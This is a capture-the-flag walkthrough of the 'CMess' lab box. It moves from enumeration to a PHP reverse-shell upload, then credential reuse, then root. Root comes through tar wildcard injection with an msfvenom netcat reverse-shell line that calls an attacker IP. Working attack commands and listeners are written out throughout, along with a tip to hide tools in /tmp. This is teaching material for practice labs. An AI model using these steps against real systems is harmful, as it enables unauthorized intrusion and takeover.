 # CMess

## Enumeration

to begin we are told to add the target IP to our host file 
command: ```nano /etc/hosts ```
``` <IP_address>    cmess.thm ```

now let's run an Nmap scan to discover what services are running on our target.

command: ``` nmap -sC -sV -P0 <TARGET_IP> ```

![Alt text](/posts/res/cmess1.png)

with our scan complete we can see that we have two open ports and services running on our target system.

- port 22 ***(SSH)***
- port 80 ***(HTTP)***

we navigate to the webpage. 
![Alt text](/posts/res/cmess2.png)

so from our scan since we ran we can see that it has enumerated a ***robots.txt*** file on the server with 3 disallowed entries. but after navigating manually through each of them, they provide us with a 403 forbidden message.

![Alt text](/posts/res/cmess3.png)

so from this, we can attempt to brute force for other hidden directories using Gobuster.

command: ``` gobuster dir  -u http://cmess.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ```


![Alt text](/posts/res/cmess4.png)

from our directory brute force, we just discovered two interesting directories ***login*** and ***admin***. now we navigate to it, but it seems that we require an email address and password to authenticate. 

using our hint, we can attempt performing a sub-domain enumeration using wfuzz 

command:  ``` wfuzz -c -f sub-fighter -w /root/subdomains.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 125 ```


![Alt text](/posts/res/cmess5.png)

so we wait for the enumeration to complete then we can see that we have discovered a sub domain ***dev.cmess.thm***

command: ```grep 104 sub-fighter '''

![Alt text](/posts/res/cmess6.png)

now let's add that to our host file and navigate over to the site 

![Alt text](/posts/res/cmess7.png)

from the development log, we can see the login credentials we need to access the admin panel.

***email:*** ``` andre@cmess.thm ```
***password:*** ``` KPFTN_f2yxe% ```

now we Try to log in on cmess.thm/admin with these credentials

![Alt text](/posts/res/cmess8.png)

on the content tab -> File Manager, we can see an upload functionality which we can try to exploit. Try to upload reverse shell because the website is running on an Apache server PHP is very convenient for reverse shell.

![Alt text](/posts/res/cmess9.png)


so on Kali, we can find some web shells under the following directory 

``` /usr/share/webshells/php/ ```
to get this to our current working directory we can utilize the ***cp*** command to copy the files.

![Alt text](/posts/res/cmess10.png)

command: ```cp /usr/share/webshells/php/php-reverse-shell.php <CURRENT_WORKING_DIRECTORY> ```

remember to change the IP variable value with your IP and set the port number.

![Alt text](/posts/res/cmess11.png)

all uploads are stored in the assets folder. 

![Alt text](/posts/res/cmess12.png)

![Alt text](/posts/res/cmess13.png)

now to get a reverse connection once the script is executed we must set a netcat listener on our attack machine to listen and catch the request

command: ```nc -lnvp 4444 ```

![Alt text](/posts/res/cmess14.png)

to execute the reverse shell script navigate to the following path 

```http://cmess.thm/assets/<filename>```


![Alt text](/posts/res/cmess15.png)

we have successfully gotten a shell as user ***www-data***. we need to get access to escalate our privileges to the user andre so we can get the user flag.

now we can attempt to find a privilege escalation path using linpeas.sh

linpeas.sh is an automated tool for finding vulnerabilities in Linux systems.

to download Linpeas onto our machine we can use the following command 

``` wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ```

![Alt text](/posts/res/cmess16.png)

now we would need to transfer this file to our target system by using a simple Python server from our local machine.

to do this we simply run the following command in the directory we downloaded and saved the linpeas files.

command: ``` python3 -m http.server <port_number> ```


![Alt text](/posts/res/cmess17.png)

Note: during a pentest, it is important to note that the file you transfer over to the target machine should always be stored in the ***/tmp*** folder to avoid the user finding them.


![Alt text](/posts/res/cmess19.png)

![Alt text](/posts/res/cmess18.png)

now we make the script executable and run it using the following command 

command: ```chmod +x linpeas.sh && ./linpeas.sh```


![Alt text](/posts/res/cmess20.png)

from linpeas enumeration, we found a bak file which is a backup file. we also found a cron job that can possibly be exploited to gain root access.



![Alt text](/posts/res/cmess21.png)

we can attempt to view the ***.password.bak*** 

command: ``` cat /opt/.password.bak```

![Alt text](/posts/res/cmess22.png)

It looks like the backup password of the andre but how we can use it? We know SSH is open on the 22 port try to sign in using this password.

command: ```ssh andre@cmess.thm ```

now we have successfully logged in as andre via the SSH credentials we found.

![Alt text](/posts/res/cmess23.png)

to get our ***user flag*** we can simply look at the file

![Alt text](/posts/res/cmess24.png)

we finally got our first flag.

## Gaining Root Access

Now we can access Andre’s folder let’s see what the cron job does that we found using Linpeas.

command: ```cat /etc/crontab ```


![Alt text](/posts/res/cmess25.png)

In this situation, a backup process occurs every 2 minutes, copying all files and folders from the /home/andre/backup directory to the /tmp directory in the form of andre_backup.tar.gz. It utilizes the tar command, and a noteworthy aspect is the use of the wildcard (*) character, signifying that anything within the /home/Andre/backup directory is included in the backup. This particular functionality may pose a security risk, as it opens the possibility of exploiting the system.

to gain a root shell we can create a payload using msfvenom

command: ``` msfvenom -p cmd/unix/reverse_netcat lhost=10.18.73.117 lport=4040 R ```

![Alt text](/posts/res/cmess26.png)

now we set up our listener 

command: ``` nc -lnvp <port> ```

Let's now echo our payload into “exploit.sh” and create the 2 directories needed for this exploit.

``` echo "mkfifo /tmp/txvij; nc 10.18.73.117 4040 0</tmp/txvij | /bin/sh >/tmp/txvij 2>&1; rm /tmp/txvij" > shell.sh ```

```echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1 ```

![Alt text](/posts/res/cmess27.png)

Now we wait for the cron job to run and we should get tar interpret the commands and execute our shell.sh file.

and now we have our root shell and flag.

![Alt text](/posts/res/cmess28.png)




